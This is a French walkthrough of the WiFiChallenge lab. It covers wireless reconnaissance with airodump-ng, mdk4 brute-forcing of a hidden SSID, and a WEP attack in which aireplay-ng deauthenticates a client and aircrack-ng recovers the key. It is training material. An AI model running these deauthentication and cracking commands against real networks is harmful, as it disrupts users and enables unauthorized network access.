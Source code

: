 # lab.wifichallenge.com

Téléchargement de la VM : https://drive.proton.me/urls/Q4WPB23W7R#Qk4nxMH8Q4oQ

## Challenges 

### 1) Reconnaissance

#### Lister les clients et voir le canal de "wifi-global"

Capturer tous les paquets du réseau :

    sudo airmon-ng check kill
    sudo airmon-ng start wlan0
    
    airodump-ng wlan0mon -w scan --manufacturer --wps --band abg
    # --band abg permet de scanner 2,4Ghz et 5Ghz
    
Isoler le canal 44 si besoin : 

    airodump-ng wlan0mon -w scan --manufacturer --wps --band abg -c44


#### Obtenir l'adresse MAC du client "wifi-IT"

On capture les paquets comme avant puis on isole le canal 11 : 

    airodump-ng wlan0mon -w recon --manufacturer --wps --band abg
    airodump-ng wlan0mon -w recon --manufacturer --wps --band abg -c11
    
Création d'une base de données locale avec les résultats de la capture : 
    
    python3 ~/tools/wifi_db/wifi_db.py -d wifi.db ./recon*
    sqlitebrowser wifi.db
    
Il n'y a ensuite plus qu'à chercher le point d'accès voulu dans les différentes tables.

#### Trouver le probe de 78:C1:A7:BF:72:46

Même démarche qu'avant : 

    sudo airmon-ng check kill
    sudo airmon-ng start wlan0
    airodump-ng wlan0mon -w recon --manufacturer --wps --band abg
    python3 ~/tools/wifi_db/wifi_db.py -d wifi.db ./recon*
    sqlitebrowser wifi.db
    
#### Donner le ESSID du point d'accès caché 

On sait que l'adresse MAC du réseau est F0:9F:C2:6A:88:26

Identifier le canal du réseau :

    airodump-ng wlan0mon

Changement de canal et bruteforcing des noms avec mdk4 :

    iwconfig wlan0mon channel 11
    
    cat ~/rockyou-top100000.txt | awk '{print "wifi-" $1}' > ~/wifi-rockyou.txt
    
    mdk4 wlan0mon p -t F0:9F:C2:6A:88:26 -f ~/wifi-rockyou.txt

### 2) WEP

Le chiffrement WEP est vulnérable parce que chaque paquet transmis contient un IV (vecteur d'initialisation), et avec suffisamment de paquets capturés, il est possible de deviner la clé WEP. Le but est donc de capturer le plus de paquets possible pour extraire ces IVs et ensuite les utiliser pour craquer la clé WEP.

Si il n'y a aucun client, et donc peu de paquets, on peut quand même passer par les techniques d'injection de paquets ou de fake authentication. 

#### Trouver le flag de "wifi-old"

Reconnaissance : 

    sudo airmon-ng check kill
    sudo airmon-ng start wlan0
    airodump-ng wlan0mon -w wep --manufacturer --wps --band abg
    
On voit bien une ligne sur un réseau WEP : 

>  F0:9F:C2:71:22:11  -28       50     1795    0   3   54   WEP  WEP                wifi-old              Ubiquiti Networks Inc. 
    
    
Capture spécifique :

    airodump-ng wlan0mon -w wep --manufacturer --wps --band abg --bssid F0:9F:C2:71:22:11
    
On voit une station DA:92:58:2A:BF:A3 connectée.

Attaque à faire en parallèle pour désauthentifier les clients et capturer plus de données plus vite :
  
    aireplay-ng --deauth 10 -a F0:9F:C2:71:22:11 -c DA:92:58:2A:BF:A3 wlan0mon

Attaque finale avec Aircrack : 

    sudo aircrack-ng wep-01.cap

Après un peu d'attente on obtient bien la clé :

> KEY FOUND! [ 11:BB:33:CD:55 ] 

Connexion finale à ce point d'accès : 

    sudo airmon-ng stop wlan0mon  
    sudo apt install wpasupplicant
    sudo systemctl restart wpa_supplicant.service
    sudo systemctl restart network*
    sudo vim /etc/wpa_supplicant/wep.conf

Contenu du fichier : 

    network={
            ssid="wifi-old"
            key_mgmt=NONE
            wep_key0=11BB33CD55
            wep_tx_keyidx=0
    }

Connexion : 

     wpa_supplicant -D nl80211 -i wlan2 -c /etc/wpa_supplicant/wep.conf


    

    

